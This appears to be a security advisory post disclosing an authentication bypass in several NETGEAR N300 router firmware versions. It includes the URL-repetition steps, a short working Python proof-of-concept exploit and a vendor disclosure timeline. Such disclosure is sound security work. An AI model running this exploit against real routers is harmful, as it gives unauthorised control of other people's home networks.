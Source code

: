 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
- [https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
- [routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
- [https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
- [https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers [1] are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware `N300_1.1.0.31_1.0.1.img`
- Router Firmware `N300-1.1.0.28_1.0.1.img`
- Router Firmware `N300-1.1.0.24_1.0.1.img`

> Tested and confirmed on the `WNR1000v4` Router with the mentioned firmwares. Other products may also be vulnerable because the firmware is used in multiple devices
{: .prompt-info }

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL `http://[ROUTER-IP]/BRS_netgear_success.html` multiple times

> After that the adversary can access the administration web interface and there is no username/password prompt
{: .prompt-info }

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
- 21.07.2015: Vendor notified per email (security@netgear.com) -> No response
- 23.07.2015: Vendor notified via official chat support
- 24.07.2015: Support redirected notification to the technical team
- 29.07.2015: Requested status update and asked if they need further assistance -> No response
- 21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
- 03.09.2015: Support again said that they will redirect it to the technical team
- 03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
- 03.09.2015: Confirmed to Netgear that the problem is solved in this version -> Asked Netgear when they plan to release the firmware with this security fix
- 11.09.2015: Response from Netgear saying they will not disclose the patch release day
- 15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time -> No response
- 29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
- 06.10.2015: Forced public release of this advisory to follow up on [2]

# References
- [1] [http://support.netgear.com/product/WNR1000v4](http://support.netgear.com/product/WNR1000v4)
- [2] [http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html](http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html)

